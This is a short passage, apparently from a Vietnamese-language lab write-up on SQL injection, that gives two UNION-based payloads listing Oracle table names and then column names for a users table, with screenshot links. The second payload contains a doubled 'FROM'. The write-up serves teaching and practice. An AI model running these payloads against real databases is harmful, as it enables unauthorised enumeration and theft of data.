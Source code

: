 Gửi payload `'+union+select+NULL,table_name+from+all_tables+--` và `'+union+select+NULL,column_name+from+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_BSGYUL'+--` để lần lượt lấy tên bảng và tên cột.

![Untitled](writeup-media/Untitled%2033.png)

![Untitled](writeup-media/Untitled%2034.png)
